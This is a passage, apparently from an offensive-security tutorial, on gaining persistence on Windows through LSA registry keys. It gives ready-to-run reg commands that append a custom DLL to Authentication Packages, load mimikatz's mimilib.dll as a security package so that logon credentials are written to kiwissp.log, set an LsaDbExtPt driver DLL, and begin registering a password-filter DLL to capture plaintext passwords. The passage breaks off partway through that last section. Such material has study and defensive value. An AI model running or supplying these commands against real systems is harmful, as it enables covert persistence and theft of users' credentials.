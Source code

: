 To set the DLL we first have to query the current authentication package DLLs used and then append our own at the end. Our DLL must be located in system32 as well.

`reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v “Authentication Packages”`![](https://lh7-us.googleusercontent.com/wXYxsVPs89WUm3uaXHuW_iDR7G3k_K_NtNLLy6gZ_SI32Z88_rfxMcu10RIqjV46cYNvnuxdXm-xAnPVdTp43Jp2KgUfJnYBqiStqiJo0FBTo2L0fUkBNtUuMXaCLGwrQziv3NuSCBdmcLBDdaWpC5U)

As you can see there is already a DLL specified so we have to append our DLL onto it:

`reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v “Authentication Packages” /t REG_MULTI_SZ /d “msv1.0\0persist.dll” /f`

![](https://hadess.io/wp-content/uploads/2023/11/image-48.png)

## Security Support Provider(SSP)

These are DLLs used to extend windows authentication mechanism and are loaded at boot by LSA. these too must be implemented in a special way. One way threat actors can abuse it is to use the mimilib.dll provided by mimikatz to dump credentials of any user that logs in.

It first needs to be queried to see if there is any existing DLL and if there is, append our own at the end.

`reg query “hklm\system\currentcontrolset\control\lsa” /v “Security Packages”`

![](https://hadess.io/wp-content/uploads/2023/11/image-47.png)

Now we can add the mimilib.dll to it:
`reg add “hklm\system\currentcontrolset\control\lsa” /v “Security Packages” /d “mimilib.dll” /t REG_MULTI_SZ /f`

The credentials will be dumped to C:\Windows\System32\kiwissp.log.

Driver
As the name suggests these are DLLs used as driver for LSA.

Our dll can be set using the following command:
`reg add “HKLM\SYSTEM\CurrentControlSet\Services\NTDS” /v LsaDbExtPt /d “C:\Windows\system32\persist.dll” /t REG_SZ /f`

Password Filter
Password filter DLLs are used to enforce password filter and LSA validates user passwords before accepting them via passing them to all the specified password filter DLLs.

Using this technique we can both persist ourselves and also retrieve plaintext password.

These DLLs must be implemented in a specific way. One example can be found in atomic red team github repository: [https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1556.002/src/AtomicRedTeamPWFilter.cpp](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1556.002/src/AtomicRedTeamPWFilter.cpp) 

We first have to query the registry to see if any DLL is specified:
`reg query “HKLM\SYSTEM\CurrentControlSet\Control\Lsa” /v “Notification Packages”`

![](https://hadess.io/wp-content/uploads/2023/11/image-45.png)

Only scecli is specified and our DLL should be appended to it.
